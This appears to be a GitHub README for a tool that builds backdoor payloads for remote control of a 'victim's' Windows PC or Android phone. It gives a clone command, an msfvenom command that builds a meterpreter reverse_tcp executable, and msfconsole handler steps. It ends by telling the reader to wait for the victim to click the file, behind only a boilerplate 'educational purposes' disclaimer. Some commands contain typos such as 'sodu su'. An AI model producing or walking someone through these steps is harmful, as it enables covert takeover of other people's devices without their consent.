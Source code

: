 # [+]Warning!!
--------------------------------------------------------------------------------------------
Welcome everyone

This tool is for educational purposes only, and our goal is not to make people victims or cause any kind of danger we are not responsible for any damages due to improper use


# [+]About
--------------------------------------------------------------------------------------------
This is a payload creation machine Tool , To macke something like back door and so one to completely remote a PC or android phone Just one click on the file and u will be able to open a session and tunnel with your victim’s device with msfcosnsole Have a good time Good bye my friend …


 # [+]How to Download
open you terminal
git clone https://github.com/Essam0o/Payload-Injection.git


 # [+]How to Run
--------------------------------------------------------------------------------------------
After preparing your payload via Payload-injection tool you can open msfconsole and lunch your paylaod which has been created open your terminal as a root in any path and type

sodu su  
**msfvenom -p windows/meterpreter/reverse_tcp -f exe lhost = your ip lport = 4444 > FileName .exe**


Then wait to complete download the file and check your path on your os
  
**msfconsole**

wiat proccess// 


**use exploit/multi/handler**

**set payload windows/meterpreter/reverse_tcp**


**set lhost   enter your ip**

**set lport 4444**

**run**

 HERE WE ARE DONE OF CREATING A VIRUS ALL U NEED TO WAIT THE VICTIM TO CLICK ON THE APK  OR EXE FILE

